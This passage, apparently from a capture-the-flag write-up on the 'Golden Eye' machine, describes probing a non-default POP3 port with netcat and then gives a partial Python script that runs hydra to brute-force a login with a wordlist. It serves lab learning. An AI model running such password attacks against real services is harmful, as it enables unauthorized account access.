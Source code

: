 ![log](/post-images/Golden-Eye/log.png)

There was nothing much but it was hinted out that there was use of a non-default port 
pop3 which we had found in our enumeration. 
From the documentation we understood that we could communicate though the pop3 port 
so we had to netcat the IP through the pop3 ports and it worked we got a pop3 terminal of 
some sorts but we couldn’t get anything so we deviced a python script; 

***Its commands were to run hydra on the set IP, set port, set username, and protocol (just for certainty so as it doesn’t scour through all protocols)***

Here is the Python script;

```python

import subprocess 
import uuid 
# Fixed wordlist path 
WORDLIST_PATH = "/usr/share/wordlists/fasttrack.txt" 
# Prompt the user for inputs (allowing copy-paste) 
print("You can copy and paste the following inputs:") 
username = input("Enter the username: ") 
ip_address = input("Enter the IP address: ") 
port = input("Enter the port: ") 
protocol = input("Enter the protocol (e.g., pop3, ssh, ftp): ") 
# Construct the Hydra command 
hydra_command = [ 
"hydra", 
    "-l", username, 
    "-P", WORDLIST_PATH, 
    "-f", 
    ip_address, 
    "-s", port, 
    protocol 
] 
 
# Execute the Hydra command and capture output 
try: 
    print("\nRunning Hydra... Please wait.") 
    result = subprocess.run(hydra_command, capture_output=True, text=True, 
check=True) 
     
    # Extract the successful login credentials from Hydra's output 
    output = result.stdout 
```
